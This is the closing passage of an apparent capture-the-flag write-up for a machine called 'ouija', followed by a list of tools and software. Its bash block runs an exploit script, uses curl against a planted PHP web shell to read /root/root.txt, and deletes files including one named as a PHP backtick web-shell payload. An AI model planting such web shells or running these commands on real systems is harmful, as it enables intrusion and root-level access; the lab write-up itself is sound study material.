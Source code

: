 ```bash
# Run exploit -> read root flag
python3 /tmp/r1N9zK.py # run the exploit script
curl "http://localhost:9999/sBWtMe7v0MFR.php" -sG --data-urlencode "7=cat /root/root.txt"

# Clean up for others
rm -rf /tmp/r1N9zK.py \
  '/dev/shm/<?=`$_GET[7]`;?>' \
  /development/server-management_system_id_0/sBWtMe7v0MFR.php
```
{:file="leila@ouija ➤ bash" .nolineno}


## Resources

[^tool-feroxbuster]: Speedy web content discovery tool - [FeroxBuster](https://github.com/epi052/feroxbuster)
[^tool-katana]: Advanced web crawler - [Katana by ProjectDiscovery](https://github.com/projectdiscovery/katana)
[^tool-ffuf]: Fast multipurpose web fuzzer - [FFuF (Fuzz Faster U Fool)](https://github.com/ffuf/ffuf)
[^software-gitea]: Self-hosted DevOps platform - [Gitea (Git with a cup of tea)](https://about.gitea.com/)
[^software-haproxy]: TCP/HTTP load balancer and proxy - [HAProxy](https://www.haproxy.org/)
[^software-docker]: Platform for deploying and managing containerized applications - [Docker](https://www.docker.com/)
[^software-express]: JavaScript web application framework - [Node.js Express](https://expressjs.com/)
[^tool-hash_extender]: Utility to assist in exploitation of secret-prefix MAC implementations - [Hash Extender by Ron Bowes](https://github.com/iagox86/hash_extender)
[^tool-radare2]: Unix-like reverse engineering framework - [Radare2](https://github.com/radareorg/radare2)
